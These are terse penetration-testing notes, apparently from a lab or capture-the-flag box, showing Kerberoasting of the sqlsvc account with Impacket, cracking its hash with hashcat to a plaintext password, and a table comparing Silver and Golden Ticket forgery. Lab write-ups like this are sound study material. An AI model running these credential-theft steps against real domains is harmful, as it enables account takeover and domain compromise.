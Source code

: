 -when ever we use `kerbrosting` tool we must use dc-host mot ip
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ ./GetUserSPNs.py scrm.local/ksimpson -dc-host dc1.scrm.local -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2025-02-18 13:29:17.816856             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2025-02-18 13:29:17.816856             

```

```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ ./GetUserSPNs.py scrm.local/ksimpson -dc-host dc1.scrm.local -k -no-pass -request

----
The **Domain Controller (DC)** issued the requested service tickets but **encrypted them using the NTLM hash of the service account** (`sqlsvc` in this case).

hash revealed crack it
```

```bash
┌──(pwn㉿kali)-[~/Scrambled]
└─$ hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force


-Pegasus60
```
-Pegasus60
-sqlsvc

---
-mssql open port try to login via cred
	no we cant

---

| Feature                  | **Silver Ticket**                               | **Golden Ticket**                                      |
| ------------------------ | ----------------------------------------------- | ------------------------------------------------------ |
| **What It Forges**       | TGS (Service Ticket)                            | TGT (Ticket Granting Ticket)                           |
| **Requires**             | NTLM hash of service account                    | NTLM hash of KRBTGT account                            |
| **Scope**                | Access to a specific service (SMB, MSSQL, etc.) | Full domain access (create TGS for any service & user) |
| **Persistence**          | Lasts until service account password changes    | Lasts until KRBTGT password is reset (rarely done)     |
| **Stealth**              | No logs on the Domain Controller                | Some DC logs may appear (but still hard to detect)     |
| **Detection Difficulty** | Harder to detect                                | Slightly easier (but still very difficult)             |

---